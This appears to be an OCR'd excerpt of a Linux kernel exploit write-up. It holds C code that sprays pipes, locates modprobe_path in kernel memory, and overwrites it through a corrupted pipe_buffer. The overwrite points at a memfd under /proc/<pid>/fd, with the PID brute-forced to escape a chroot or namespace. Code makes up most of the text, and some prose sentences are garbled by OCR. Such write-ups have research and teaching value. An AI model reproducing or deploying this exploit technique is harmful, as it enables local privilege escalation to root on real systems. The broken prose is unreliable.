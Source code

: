```c
        for (int j = 0; j < PIPE_SPRAY; j++)
        {
            memset(&data, 0, PAGE_SIZE);
            int count;
            if (count = read(pfd[j][0], &data, PAGE_SIZE) < 0)
            {
                continue;
            }

            if (!memcmp(&data, "pwn", 3))
            {
                continue;
            }

            void *locate = (uint64_t *)memmem(&data, PAGE_SIZE, "/sbin/modprobe", sizeof("/sbin/modprobe"));
            if (locate)
            {
                puts("\n[+] found modprobe_path");
                modprobe_page = pipebuf->page;
                modprobe_off = (uint8_t *)locate - data;
                printf("[*] modprobe page: 0x%lx\n", modprobe_page);
                printf("[*] modprobe offset: 0x%lx\n", modprobe_off);
                found = true;
                pipe_idx = j;
                break;
            }
        }
...        
```

Overwriting modprobe_path
---
Finds the string `/sbin/modprobe` in kernel memory and replaces it with a controlled value that points to the file we finally have 
be relatively easy.

A very well-known trick to make this work, even if we run inside a chroot without being able to create files in the root file system, is 
using memfd exposed via `/proc/<pid>/fd/<n>`. It's worth noting that, since our PID is outside the unprivileged namespace 
unknown, we will brute-force to find it.

```c
...
    puts("[*] overwrite modprobe_path");
    for (int i = 0; i < 4194304; i++)
    {
        pipebuf->page = modprobe_page;
        pipebuf->offset = modprobe_off;
        pipebuf->len = 0;
        for (int i = 0; i < SKBUF_SPRAY; i++)
        {
            if (write(sock[i][0], pipebuf, 1024 - 320) < 0)
            {
                perror("[-] write(socket)");
                break;
            }
        }

        memset(&data, 0, PAGE_SIZE);
        snprintf(fd_path, sizeof(fd_path), "/proc/%i/fd/%i", i, modprobe_fd);

        lseek(modprobe_fd, 0, SEEK_SET);
```